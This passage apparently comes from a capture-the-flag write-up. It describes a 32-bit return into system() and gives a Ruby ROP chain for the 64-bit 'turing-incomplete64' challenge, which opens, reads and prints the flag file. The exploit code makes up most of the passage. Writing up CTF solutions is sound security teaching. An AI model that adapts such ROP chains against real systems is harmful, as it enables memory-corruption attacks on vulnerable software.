 That'll return to `system()`, with the first parameter set to the address of the command (that we leaked earlier). `system()` will run that command, then return into `exit()` and exit cleanly. That part isn't necessary, I just like being polite!

That's pretty much it! Check out the full solution to see how those functions work, if you like.

## `turing-incomplete64`

`turing-incomplete64` is compiled from the exact same source as `turing-incomplete`, the only different is that it's compiled in 64-bit mode.

The exploit is largely the same as well. The numbers are different, but we leak the stack address and return address and everything identically. The only difference is the actual ROP payload:

```ruby
# Do a 3-element ROP chain - I don't know why system() isn't working, but this
# is!

# *** open(file, 0, 0)
write_64_bits_right(s, BASE_ADDRESS + POP_RDI_RET)
write_64_bits_right(s, COMMAND_ADDR)

write_64_bits_right(s, BASE_ADDRESS + POP_RSI_RET)
write_64_bits_right(s, 0)

write_64_bits_right(s, BASE_ADDRESS + POP_RCX_RET)
write_64_bits_right(s, 0)

write_64_bits_right(s, BASE_ADDRESS + OPEN)

# *** read(5, buffer)
write_64_bits_right(s, BASE_ADDRESS + POP_RDI_RET)
write_64_bits_right(s, 5)

write_64_bits_right(s, BASE_ADDRESS + POP_RSI_RET)
write_64_bits_right(s, COMMAND_ADDR)

write_64_bits_right(s, BASE_ADDRESS + POP_RCX_RET)
write_64_bits_right(s, expected_flag().length)

write_64_bits_right(s, BASE_ADDRESS + READ)

# *** puts(buffer)
write_64_bits_right(s, BASE_ADDRESS + POP_RDI_RET)
write_64_bits_right(s, COMMAND_ADDR)

write_64_bits_right(s, BASE_ADDRESS + PUTS)

# *** exit(0)
write_64_bits_right(s, BASE_ADDRESS + POP_RDI_RET)
write_64_bits_right(s, 0)

write_64_bits_right(s, BASE_ADDRESS + EXIT)

# Tell it we're quitting
s.write("q\n")
```
